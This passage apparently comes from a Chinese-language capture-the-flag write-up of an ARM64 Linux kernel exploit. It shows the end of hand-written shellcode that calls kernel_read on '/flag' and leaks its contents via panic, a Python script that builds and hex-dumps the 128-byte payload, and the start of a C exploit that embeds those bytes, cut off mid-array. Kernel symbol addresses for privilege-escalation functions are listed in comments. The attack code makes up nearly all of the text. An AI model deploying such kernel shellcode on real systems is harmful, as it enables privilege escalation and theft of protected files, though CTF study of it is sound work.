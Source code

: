 ```python
     blr x5
     
     mov x1, sp
     mov x2, 100
     mov x3, 0
     ldr x5, =0xffff800008223e28  // kernel_read
     blr x5
     
     ldp x0,x1,[sp]
     ldp x2,x3,[sp,16]
     ldp x4,x5,[sp,32]
     ldp x6,x7,[sp,48]
     blr x0                       // panic
''')

# ffff8000082214e0 T filp_open
# ffff800008223e28 T kernel_read
# ffff8000080a24f8 T prepare_kernel_cred
# ffff8000080a2258 T commit_creds

print(len(shellcode))
assert(len(shellcode)<=128)

buf = ""
for i in shellcode:
    buf += hex(i) + ','

print(buf)

open('sc.bin','wb').write(shellcode)
```

最终长度正好128：

```
➜  python3 exp.py
128
0x00,0x00,0x80,0xd2,0xa1,0x02,0x00,0x58,0x20,0x00,0x3f,0xd6,
0xa1,0x02,0x00,0x58,0x20,0x00,0x3f,0xd6,0xa0,0x02,0x00,0x58,
0xe0,0x03,0x00,0xf9,0xe0,0x03,0x00,0x91,0x01,0x00,0x80,0xd2,
0x02,0x00,0x80,0xd2,0x45,0x02,0x00,0x58,0xa0,0x00,0x3f,0xd6,
0xe1,0x03,0x00,0x91,0x82,0x0c,0x80,0xd2,0x03,0x00,0x80,0xd2,
0xe5,0x01,0x00,0x58,0xa0,0x00,0x3f,0xd6,0xe0,0x07,0x40,0xa9,
0xe2,0x0f,0x41,0xa9,0xe4,0x17,0x42,0xa9,0xe6,0x1f,0x43,0xa9,
0x00,0x00,0x3f,0xd6,0xf8,0x24,0x0a,0x08,0x00,0x80,0xff,0xff,
0x58,0x22,0x0a,0x08,0x00,0x80,0xff,0xff,0x2f,0x66,0x6c,0x61,
0x67,0x00,0x00,0x00,0xe0,0x14,0x22,0x08,0x00,0x80,0xff,0xff,
0x28,0x3e,0x22,0x08,0x00,0x80,0xff,0xff,
```

```c
#include <stdio.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>

int main(){
    char buf[0x100];
    char exp[0x200] = {0x00,0x00,0x80,0xd2,0xa1,0x02,0x00,0x58,0x20,0x00,0x3f,0xd6,
                       0xa1,0x02,0x00,0x58,0x20,0x00,0x3f,0xd6,0xa0,0x02,0x00,0x58,
                       0xe0,0x03,0x00,0xf9,0xe0,0x03,0x00,0x91,0x01,0x00,0x80,0xd2,
                       0x02,0x00,0x80,0xd2,0x45,0x02,0x00,0x58,0xa0,0x00,0x3f,0xd6,
                       0xe1,0x03,0x00,0x91,0x82,0x0c,0x80,0xd2,0x03,0x00,0x80,0xd2,
                       0xe5,0x01,0x00,0x58,0xa0,0x00,0x3f,0xd6,0xe0,0x07,0x40,0xa9,
                       0xe2,0x0f,0x41,0xa9,0xe4,0x17,0x42,0xa9,0xe6,0x1f,0x43,0xa9,
```